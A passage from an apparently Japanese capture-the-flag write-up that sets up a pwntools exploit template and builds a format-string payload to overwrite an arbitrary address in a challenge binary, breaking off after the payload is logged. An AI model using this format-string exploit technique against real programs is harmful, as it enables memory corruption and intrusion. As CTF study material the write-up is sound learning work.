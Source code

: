ということで、↓のコードを書く。

```bash
## Run local executable.
##   ./exploit.py LOCAL EXE=./executable
#
## Run remote (with local executable for addresses)
##   ./exploit.py HOST=example.com PORT=4141 EXE=/tmp/executable
#
## Run with GDB script.
##   ./exploit.py GDB
## --- (Edit GDB script if necessary) --------------------------------
gdbscript = """
tbreak main
continue
""".format(
    **locals()
)
## -------------------------------------------------------------------

from pwn import *

## --- (do not edit) ---------------------------------------------------
exe = context.binary = ELF(args.EXE)

def start_local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    host = args.HOST
    port = int(args.PORT)
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

io = start()
## -----------------------------------------------------------------------

## EXPLOIT GOES HERE

## 書式文字列攻撃 (任意アドレスの値書き換え)

## param: printf()に "%p,%p,..." を渡したときに、何番目の %p (1-origin) が `0x70252c70252c7025` (= "%p,%p,%p" のリトルエンディアン) となるか
offset = 14
## param: 書き換えたいアドレス
addr = 0x401273 + 0x2DE7 + 0x6  # 最後の +0x6 は、 `"sus = 0x%x\n"` の出力を見ながらの試行錯誤
## param: 書き換えたい値
value = p32(0x67616C66)

payload = fmtstr_payload(offset, {addr: value})
log.info(f"payload: {payload}")

## param: バナー
```